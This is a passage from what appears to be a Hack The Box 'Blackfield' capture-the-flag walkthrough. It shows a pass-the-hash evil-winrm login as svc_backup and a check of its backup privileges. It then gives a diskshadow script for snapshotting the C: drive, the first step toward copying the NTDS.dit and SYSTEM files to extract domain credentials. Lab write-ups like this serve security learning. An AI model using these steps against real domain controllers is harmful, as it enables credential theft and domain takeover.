 ```
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]
└─# evil-winrm -i 10.10.10.192 -u 'svc_backup' -H '9658d1d1dcd9250115e2205d9f48400d'

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents> 
*Evil-WinRM* PS C:\Users\svc_backup\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

We're in! And we also have both of the privileges needed for our Privilege Escalation that I detailed earlier. When a computer is a Domain Controller in an AD network, the local accounts are disabled, so we if want Admin access, we need the Ntds.dit file. Additionally, the key needed to decrypt this and actually extract information is located in the System hive (a group of keys, subkeys, and values located in the registry). However, because the Ntds is always in use, we cannot simply just make a backup of it. To start our attack process, we will create a dsh (Diskshadow script); the Diskshadow tool can create shadow files, which are like snapshots. For convenience and mitigation of potential errors, we will script out our commands. We will create a .dsh and input the following lines of code:

```
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]
└─# nano bruh.dsh

//in the file
set context persistent nowriters
add volume c: alias bruh
create
expose %bruh% d:

//Now encode the file to the correct format
┌──(root💀kali)-[/home/kali/HackTheBox/Blackfield]
└─# unix2dos bruh.dsh
unix2dos: converting file bruh.dsh to DOS format...
```
